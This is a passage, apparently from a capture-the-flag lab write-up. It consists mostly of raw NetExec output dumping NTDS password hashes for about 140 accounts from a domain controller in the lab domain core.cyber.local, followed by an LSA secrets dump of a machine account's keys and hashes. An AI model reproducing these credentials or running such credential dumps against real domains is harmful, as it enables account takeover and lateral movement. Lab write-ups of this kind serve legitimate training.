NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Robert.Welch:1313:aad3b435b51404eeaad3b435b51404ee:c79dffed8aba3d7e8a4a4c25790009ce:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Thomas.Doherty:1314:aad3b435b51404eeaad3b435b51404ee:f0e719d1c6a9db3edd77e9ee2a44d47f:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Virginia.Correa:1315:aad3b435b51404eeaad3b435b51404ee:c681c7c12fffa25021ea8a70c1fa70c0:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Willie.Brown:1316:aad3b435b51404eeaad3b435b51404ee:08d558f16b3678f581b6a4f955149179:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Rodger.Allen:1317:aad3b435b51404eeaad3b435b51404ee:0586c9cf9397fe422d588758930a0f22:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Bianca.Ellis:1318:aad3b435b51404eeaad3b435b51404ee:69ec73f5b7e163691b165dd6bfc57504:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Lynda.Ashley:1319:aad3b435b51404eeaad3b435b51404ee:0bb3ef976c553b35294606334428139a:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Joan.Say:1320:aad3b435b51404eeaad3b435b51404ee:ca4a3e1b8734ba06793fd5733fb557e2:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Connie.Leon:1321:aad3b435b51404eeaad3b435b51404ee:fcfccc8272b4259e776ffef850adfd58:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Joseph.Molinari:1322:aad3b435b51404eeaad3b435b51404ee:8b2004877d4483bd52243c8300f9dc30:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\James.Graff:1323:aad3b435b51404eeaad3b435b51404ee:83aedad638e85156e0612492eb530efa:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Gloria.Thomas:1324:aad3b435b51404eeaad3b435b51404ee:0339670b2940073cc080261e540c3322:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Dayna.Norwood:1325:aad3b435b51404eeaad3b435b51404ee:c6299673a62679d6a56c61b9c17227e5:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Richard.Cormier:1326:aad3b435b51404eeaad3b435b51404ee:6e8b538a020c2daed3af4ffd54253eed:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Donald.McKinney:1327:aad3b435b51404eeaad3b435b51404ee:0b8316c11836853c5e4f8cb63ed27179:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Amber.Cullinan:1328:aad3b435b51404eeaad3b435b51404ee:6e4fcfa967d145fad005a8ab62c90f9a:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Jason.Penn:1329:aad3b435b51404eeaad3b435b51404ee:9bcc1639b4d0bc78b3a527c0c9853799:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Terry.Lucero:1330:aad3b435b51404eeaad3b435b51404ee:cf31bd7a94f34612dd5ca72966d2bb64:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Joyce.Dutton:1331:aad3b435b51404eeaad3b435b51404ee:476265487fd85e3f79c85f81bfdeb476:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\David.Hawthorne:1332:aad3b435b51404eeaad3b435b51404ee:6c7fab4276e9e551991b0ea740da17cc:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Dawn.Chapa:1333:aad3b435b51404eeaad3b435b51404ee:0b59df91ff8f288108ef212212dea66b:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Catherine.Jenkins:1334:aad3b435b51404eeaad3b435b51404ee:7cc5109f08ab8bb9abad6c7627e8bbf9:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Robert.Surratt:1335:aad3b435b51404eeaad3b435b51404ee:1e3d5a0f4eabc86fa87e5c159f1010b5:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Jeffrey.Wooten:1336:aad3b435b51404eeaad3b435b51404ee:a4b5f76a508e43d7c0bb89538f8814ac:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Deborah.Blizzard:1337:aad3b435b51404eeaad3b435b51404ee:12067eec145d71c131069c292f509b1b:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\James.Fleming:1338:aad3b435b51404eeaad3b435b51404ee:eb9b7f1eece0841fd968178be058a228:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Eddie.Askew:1339:aad3b435b51404eeaad3b435b51404ee:369571f5a918330b536ca8b39215aed4:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Nancy.Gammon:1340:aad3b435b51404eeaad3b435b51404ee:8bf93b7fa91755831491e9166d305c7d:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\David.Ferris:1341:aad3b435b51404eeaad3b435b51404ee:8f19ecb789dcef006fe9e8da8bfc5cea:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Marlys.Garcia:1342:aad3b435b51404eeaad3b435b51404ee:48e925ea575843ae481bcf5771405815:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Nancy.McNamee:1343:aad3b435b51404eeaad3b435b51404ee:11b8c70e21a3283c63bf4884baf6d766:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Jessie.Ash:1344:aad3b435b51404eeaad3b435b51404ee:7f2375d0c99e847726efe2808fb6ee44:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Casey.Rash:1345:aad3b435b51404eeaad3b435b51404ee:bc825723dbca766f3bc5f34742faa1e6:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Judith.Harney:1346:aad3b435b51404eeaad3b435b51404ee:b28879bd5a8f8362df5b293591f7c779:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Lisa.Brewer:1347:aad3b435b51404eeaad3b435b51404ee:f02823f72650b4f06fdc7c8443214338:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Debra.Weight:1348:aad3b435b51404eeaad3b435b51404ee:63be8ce5fdd1c3315d1516b04782c03b:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Ben.Spillman:1349:aad3b435b51404eeaad3b435b51404ee:d2fa13ccdb63cf6141b730d84b422ac8:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Cedric.McMillan:1350:aad3b435b51404eeaad3b435b51404ee:e896182353aa1e61796f02273328f3cf:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\John.Meeks:1351:aad3b435b51404eeaad3b435b51404ee:0c15cdeaebb491eabc93f87706f4631e:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Paul.Peterson:1352:aad3b435b51404eeaad3b435b51404ee:72a3c1b0a263353c83d7dc4e0765a57f:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Dottie.Croft:1353:aad3b435b51404eeaad3b435b51404ee:a9564130f4644656cb61f269ca7eef7d:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Dominic.Doyle:1354:aad3b435b51404eeaad3b435b51404ee:7b453114af8421d79678103802588bea:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Olivia.Taylor:1355:aad3b435b51404eeaad3b435b51404ee:a92fff311237f369a78d6b54c43eee25:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Denise.Wheeler:1356:aad3b435b51404eeaad3b435b51404ee:f114a84d59719d5bc47b15a4fc954e53:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Pierre.Rose:1357:aad3b435b51404eeaad3b435b51404ee:c99178ddcafc824790fc086a877ffc06:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Gregory.Barba:1358:aad3b435b51404eeaad3b435b51404ee:2b9b3dbd3795fd14fa6c476d7fc13ab6:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Elaina.Powell:1359:aad3b435b51404eeaad3b435b51404ee:7c3f890b8ae130f036b4c4a7e3821e08:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Hershel.Landers:1360:aad3b435b51404eeaad3b435b51404ee:d3720b0c5fd635d01495af57f1eeed54:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Robert.Bradley:1361:aad3b435b51404eeaad3b435b51404ee:5490d2a2855d22de808ecd499a24c20c:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\David.Lauer:1362:aad3b435b51404eeaad3b435b51404ee:cdf608a1cfd8f1781f1641b61cfd1885:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Joshua.Tremblay:1363:aad3b435b51404eeaad3b435b51404ee:30f578b12a7a3d3ec322e2d21165fb88:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Susan.Rodriguez:1364:aad3b435b51404eeaad3b435b51404ee:09ff8f88a4edae78c756b3892da495d6:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\James.Norris:1365:aad3b435b51404eeaad3b435b51404ee:370984aaefb49f7c0bd29797a86c2dbe:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Alex.Parrott:1366:aad3b435b51404eeaad3b435b51404ee:b792a2744a6844dcf025c33412e5b66f:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Gerald.Lee:1367:aad3b435b51404eeaad3b435b51404ee:61cb2314f17c97042a3a26facd6c9b03:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Ruth.Robinson:1368:aad3b435b51404eeaad3b435b51404ee:8b5c08f33f5fe23ee2f2843d741ca165:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Thomas.Howell:1369:aad3b435b51404eeaad3b435b51404ee:3923451835e5c2b728369d98d37ee342:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Yolanda.Bartel:1370:aad3b435b51404eeaad3b435b51404ee:2a4a24361901c111e3c467f080ebe3c9:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\Dixie.Wagner:1371:aad3b435b51404eeaad3b435b51404ee:03ffa6c604ab4a94734a41c943ce112f:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\svc_tomcat:1372:aad3b435b51404eeaad3b435b51404ee:1ce2cef184fe9c88021db58a20ebff04:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\corewebtw$:1395:aad3b435b51404eeaad3b435b51404ee:fb559b5dce784bc37d4243aa442a6703:::
NTDSUTIL    10.9.15.10      445    COREDC           core.cyber.local\corewkt001$:1396:aad3b435b51404eeaad3b435b51404ee:8d03e710ad277b6c4c9d69e455ba34ce:::
NTDSUTIL    10.9.15.10      445    COREDC           CYBER$:1398:aad3b435b51404eeaad3b435b51404ee:0574b07a000e7c7f29e4ee6598b5df14:::
NTDSUTIL    10.9.15.10      445    COREDC           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           krbtgt:502:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Dennis.Hinkle:1103:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Emogene.Kremer:1104:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Laurette.Partridge:1105:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Forrest.Lowery:1106:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Angela.Stark:1107:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Arthur.Pearlman:1108:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\David.Hurley:1109:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Bradley.Frederick:1110:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Michael.Fowler:1111:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\William.Donovan:1112:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Robert.Ortiz:1113:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Wanda.McGee:1114:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Frederick.Noble:1115:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Ashley.Locascio:1116:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Viola.Soto:1117:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Ira.Ferreira:1118:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Laurie.Libby:1119:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Fred.Filip:1120:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Brandon.Suggs:1121:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Jack.Bundy:1122:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Tomeka.Ohara:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Daniel.Manning:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Gina.Horner:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Judith.Conti:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Katherine.Hayes:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Minnie.Weber:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Richard.Hause:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Sabrina.Sellers:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Tyrone.Stewart:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Richard.Thomas:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Micheal.Crosley:1133:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Charlene.Butcher:1134:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Lorraine.McDonald:1135:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\David.Gaines:1136:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Elda.Martinez:1137:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Ronald.Shepard:1138:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Justin.Doty:1139:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Silvia.Harrison:1140:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Amanda.Green:1141:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Terri.Benson:1142:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\John.Braud:1143:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Trevor.Cabrera:1144:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Janet.Raymond:1145:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Jenny.Vickers:1146:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Celia.Joplin:1147:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Frank.Barna:1148:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Juan.Hutchins:1149:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Tommy.Harness:1150:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Dino.Longoria:1151:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Gary.Jackson:1152:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\cywap$:1176:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\cymx$:1177:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           core$:1181:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           svc_adcs$:1180:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\cyadfs$:1175:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           svc_adfs$:1179:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\$H51000-QE41CF9RF1FM:1201:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\SM_1d885b86146646c99:1202:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\SM_4678ba7a74114211a:1203:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\SM_c7ef9cbdee564cf09:1204:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\SM_e1711118600448eda:1205:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\SM_8587a514dccc4fa39:1206:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\SM_6b4f1fba08944c958:1207:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\SM_570bd9e82b6f4262a:1208:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\SM_44262a42ed1d4fd48:1209:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\SM_b7ccfc91689d42a88:1210:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           D3V$:1223:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           COREWEBDL$:1400:aad3b435b51404eeaad3b435b51404ee:4182816cd42bdb6d20f7fb89703f5c48:::
NTDSUTIL    10.9.15.10      445    COREDC           M3C$:1224:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           COREWKT002$:1402:aad3b435b51404eeaad3b435b51404ee:99f7ed190a27e3963249b3e0e14c3194:::
NTDSUTIL    10.9.15.10      445    COREDC           CYFS$:1225:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           CYGW$:2602:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           CYAPP$:2601:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\svc_waplink:2603:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           inception$:3602:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\Robert.Lanza:3603:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           cyber.local\htb:12601:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.9.15.10      445    COREDC           [+] Dumped 360 NTDS hashes to /root/.nxc/logs/COREDC_10.9.15.10_2024-06-19_180810.ntds of which 340 were added to the database
NTDSUTIL    10.9.15.10      445    COREDC           [*] To extract only enabled accounts from the output file, run the following command: 
NTDSUTIL    10.9.15.10      445    COREDC           [*] grep -iv disabled /root/.nxc/logs/COREDC_10.9.15.10_2024-06-19_180810.ntds | cut -d ':' -f1
```

Another thing i missed what a cleartext password that could be exported from LSASS.exe secrets...

```
Policy subsystem is : 1.14
LSA Key(s) : 1, default {760c9b74-983a-beab-89e3-fab4ffe993ac}
  [00] {760c9b74-983a-beab-89e3-fab4ffe993ac} 1783260c79e3adf4a76b0df9a116510fa8840e1d2c64e1186dc87bf2f537134e

Secret  : $MACHINE.ACC
cur/hex : b8 b8 4d bf ad 1f 1b 5c 9b ec 6f 99 08 ff 6c 91 fb f8 ea 54 79 01 96 94 bb 56 28 57 d4 ef c4 71 1e 93 d3 78 ac 57 b7 8d 60 60 5d 1a 9b c9 a6 be 6d 58 e4 1b b7 0d 0d ee ff 6c 40 a1 9c 57 9b 3e da d7 5e ff e1 e6 35 a7 c6 e1 ef ef 90 85 81 50 04 b9 18 aa a8 f7 93 b9 e1 22 63 82 83 82 55 ed a6 13 13 61 d0 e8 d3 9c 6c 03 2d 03 50 4b a9 34 5d 11 31 00 ce 2a 05 15 f3 86 d8 75 36 c7 64 e9 d5 97 a2 25 ec 52 2c eb 0e eb fa fa b6 10 c3 2b 5a 92 2a 10 a5 29 39 6d 18 23 2b 8f 03 5f ad 84 b4 07 a8 16 ae ef aa b5 c5 0c 94 1d 7b d2 6b 8d 64 f1 cd 79 fa 0c 0f 07 f0 08 c1 7d 39 46 47 ab 97 f2 98 4f 3c d4 05 ff 88 a8 d0 55 fb a4 3b 4b eb 9f 6f b8 43 71 87 f6 f5 f6 8e 08 82 d3 58 36 19 23 2b 66 9a fd 50 40 9f 96 39 4e 6f 0d 56 da
    NTLM:fe6960a311fe7d4e0ca3a6763220a797
    SHA1:498732d1803e5b7d770edaf4d5be7c2c0e657255
old/hex : 73 cb ae d7 9c f4 d1 aa d0 15 28 5c 26 0a 58 81 cb c5 1b 67 17 ea 5c 44 97 78 da 75 00 fd 17 ed 36 70 ef bf 8c 8a 54 d4 46 9e 39 f2 e8 da 17 7d e0 32 52 83 bc fc 25 ce 77 87 e3 f6 84 16 f6 c1 b4 3b c9 1c ba cc cb c2 b7 92 3a 3a 68 fd ca f9 08 7d 20 8e 1d ba f6 65 b7 11 41 4d c0 95 36 fd 69 71 b2 9e 45 7a 42 49 27 02 d2 a2 cd 94 c8 f2 43 60 56 ba 28 21 16 a6 0b fb 26 51 49 c6 df be 00 d1 38 a5 b2 bd 49 9e f6 fe 7d af bf 20 b5 ae a7 b9 e2 c5 39 04 45 86 79 27 23 2e c1 66 fd 13 69 e3 44 a1 84 f6 08 53 b9 31 00 a4 11 3d 48 38 39 18 ae dd c0 c8 55 e8 3b b4 40 5f 31 e1 86 ac 84 7e 93 ee 2a 0c 85 65 21 de 4b 8f 3a 0a da 3b 72 81 57 a7 1f 78 ee 51 cc 3e e2 d9 67 0f 65 67 59 33 e8 95 e6 1e d5 41 bc 37 c3 ec 86 0e 18 44 f5 d2 03 a3 7b 44 31 84 0b 4b a0 1e 3c 32 46 4f bb b8 62 6e fa 47 74 c0 21 24 58 1c 1d 38 ce 9d 2d 17 5b d9 b6 d4 f4 65 48 b4 28 e5 e9 8c 85 b5 2d 31 1c 3c 99 24 30 a4 c5 18 ef 03 40 08 fe 4c 68 e5 00 7f e0 9e 4a 90 05 52 21 27 84 5e e6 9f b5 22 d1 3c b0 f6 ef 0d 33 45 c2 b5 4f 09 14 ab ce 30 93 28 3b a8 d8 3e 44 20 23 a9 58 6a 9f 5d 8c d4 bc b0 38 29 5a a3 1c fe 6d a3 ce 85 48 5d 4f e4 74 32 30 2f 7e df 8b 7e 85 e4 84 5c f3 73 7a 1e dd 7b 3b e4 97 3e c8 2f c1 e4 c2 95 b9 dc 80 fa 65 3d fd 34 b0 1b cc 6b d9 c4 b5 cd 63 a6 aa c4 59 24 bb 4f 3e 47 80 1d 5b 44 b0 b2 ed a8 47 38 4e b5 fc d3 78 b4 9d 4a 5c be 61 b6 90 ed 8d e3 50 9a fd 3e d4 fc 05 b3 2f 62 05 71 42 